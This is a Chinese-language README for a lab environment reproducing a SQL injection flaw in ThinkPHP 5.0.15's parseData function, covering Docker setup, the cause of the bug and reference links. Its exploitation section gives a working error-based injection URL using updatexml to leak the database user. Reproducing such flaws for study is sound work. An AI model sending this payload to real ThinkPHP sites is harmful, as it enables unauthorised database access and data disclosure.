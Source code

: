 # ThinkPHP 5.0.15 update/insert 注入

编译及运行环境：

```shell
docker-compose build
docker-compose up -d
```

启动后，访问`http://your-ip/?username[0]=inc&username[1]=id&username[2]=1`

看到`添加用户成功!int(1)`，说明环境运行成功。

## 漏洞原理

在`5.0.15`版本中的`parseData`函数，当传入的数据是一个数组时，就会绕过数据过滤，直接将键名拼接到SQL语句中，从而产生报错。影响`insert`和`update`语句。

由于`ThinkPHP5.0.15` 默认关闭了`debug`，所以需要在`debug`开启时才能获取到报错。

参考链接：

 - http://www.zerokeeper.com/vul-analysis/thinkphp-framework-50x-sql-injection-analysis.html
 - https://www.kingkk.com/2018/09/ThinkPHP-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E9%9B%86%E5%90%88/#ThinkPHP-5-0-15-SQL%E6%B3%A8%E5%85%A5
 - https://xz.aliyun.com/t/2257

## 漏洞利用

访问

```
http://your-ip/
?username[0]=inc
&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)
&username[2]=1
```

![](1.png)

和之前的SQL注入一样，不支持子查询。